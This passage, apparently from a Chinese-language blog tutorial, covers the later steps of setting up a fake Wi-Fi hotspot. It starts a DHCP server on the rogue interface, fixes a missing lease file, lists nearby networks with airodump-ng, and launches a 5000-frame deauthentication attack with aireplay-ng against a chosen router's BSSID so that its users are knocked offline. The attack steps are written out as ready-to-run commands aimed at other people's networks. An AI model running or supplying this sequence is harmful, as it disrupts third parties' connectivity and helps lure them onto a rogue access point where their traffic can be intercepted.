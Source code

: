 ### 启动DHCP服务

{% highlight shell %}
# dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhcpd.pid at0
# systemctl start isc-dhcp-server
{% endhighlight %}

遇到的问题：

```
PID file: /var/run/dhcpd.pid
Can't open lease database /var/lib/dhcp/dhcpd.leases: No such file or directory --
```

创建这个文件解决这个问题：

{% highlight shell %}
# mkdir /var/lib/dhcp/
# touch /var/lib/dhcp/dhcpd.leases
{% endhighlight %}

到此，wifi热点创建完成。

![创建假的wifi热点]({{ site.baseurl }}/images/2016/5/S60524-201256.jpg)

![创建假的wifi热点]({{ site.baseurl }}/images/2016/5/S60524-201355.jpg)

### 瘫痪其他路由

列出周围的wifi：

{% highlight shell %}
# airodump-ng wlan0mon
{% endhighlight %}

然后选择你的目标，记住BSSID和频道。

设置频道：

{% highlight shell %}
# iwconfig wlan0mon channel <频道号>
{% endhighlight %}

开始deauthentication攻击：

{% highlight shell %}
# aireplay-ng -0 5000 -a <BSSID> wlan0mon --ignore-negative-one
{% endhighlight %}
